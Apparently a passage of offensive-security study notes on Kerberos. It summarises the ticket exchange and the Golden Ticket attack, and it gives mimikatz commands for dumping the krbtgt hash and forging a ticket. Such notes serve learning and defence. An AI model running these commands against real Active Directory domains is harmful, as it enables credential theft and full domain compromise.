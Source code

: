 The client sends the encrypted TGT to the TGS with Service Principal Name (SPN) of the service that client wants to access
{% endstep %}

{% step %}
#### TGS-REP (Ticket Granting Service Reply)

The KDC verifies the TGT and sends a Service Ticket with a session key
{% endstep %}

{% step %}
#### AP-REQ (Application Service Request)

The client requests the services and sends the session key to prove access
{% endstep %}

{% step %}
#### AP-REP (Application Service Reply)

The service grants access
{% endstep %}
{% endstepper %}

***

### <mark style="color:green;">Golden Ticket vs Silver Ticket</mark>

{% tabs %}
{% tab title="Golden Ticket" %}
<figure><img src="../../../.gitbook/assets/image (296).png" alt=""><figcaption></figcaption></figure>

* Can access **any** Kerberos service and impersonate any user (Full domain compromise)
* Dump the **KRBTGT** account NTLM hash
* Forge the **TGT**&#x20;

**Dumping the krbtgt hash:**

`lsadump::lsa /inject /name:krbtgt`

**Creating Golden Ticket:**

`Kerberos::golden /user:administrator /domain:<DOMAIN.local> /sid: <DOMAIN_SID>: /krbtgt:<KRBTGT_HASH> /id:500`

